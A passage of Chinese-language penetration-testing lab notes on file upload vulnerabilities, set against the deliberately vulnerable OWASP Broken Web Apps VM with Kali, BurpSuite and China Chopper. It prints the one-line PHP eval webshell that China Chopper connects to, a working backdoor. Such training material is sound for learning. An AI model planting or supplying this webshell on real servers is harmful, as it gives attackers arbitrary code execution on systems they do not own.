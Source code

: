 **中国菜刀**：

```php
<?php @eval($_POST['chopper']);?>

#说明：REQUEST是在网页端输入变量访问，POST则是使用像中国菜刀值类的工具连接，是C/S架构
```





## 渗透环境

### 环境

- 目标靶机：[OWASP_Broken_Web_Apps_VM_1.2](https://sourceforge.net/projects/owaspbwa/files/1.2/OWASP_Broken_Web_Apps_VM_1.2.7z/download)
  - https://www.owasp.org/index.php/OWASP_Broken_Web_Applications_Project
  - https://sourceforge.net/projects/owaspbwa/files/1.2/OWASP_Broken_Web_Apps_VM_1.2.7z/download

> OWASP Broken Web Applications Project
>
> Broken Web Applications（BWA）项目生成一个虚拟机，运行各种具有已知漏洞的应用程序，供以下人员使用：
>
> - 了解Web应用程序安全性
> - 测试手册评估技术
> - 测试自动化工具
> - 测试源代码分析工具
> - 观察网络攻击
> - 测试WAF和类似的代码技术

- 渗透机：Kali-Linux-2019.3-vmware-amd64
  - https://images.offensive-security.com/virtual-images/kali-linux-2019.4-vmware-amd64.zip

> Kali-Linux
>
> Kali是一款常用的渗透测试系统，主要原因是其内部集成了众多的安全测试工具。



### 工具

- 中国菜刀
- BurpSuite



## 文件上传漏洞

​		文件上传（Upload），web应用没有对用户上传的文件进行严格的限制或检查，致使hacker可以通过该点上传木马文件，从而获得该网站的webshell。

### 实验环境

- OWASP_Broken_Web_Apps_VM_1.2
- Kali-Linux-2019.3-vmware-amd64
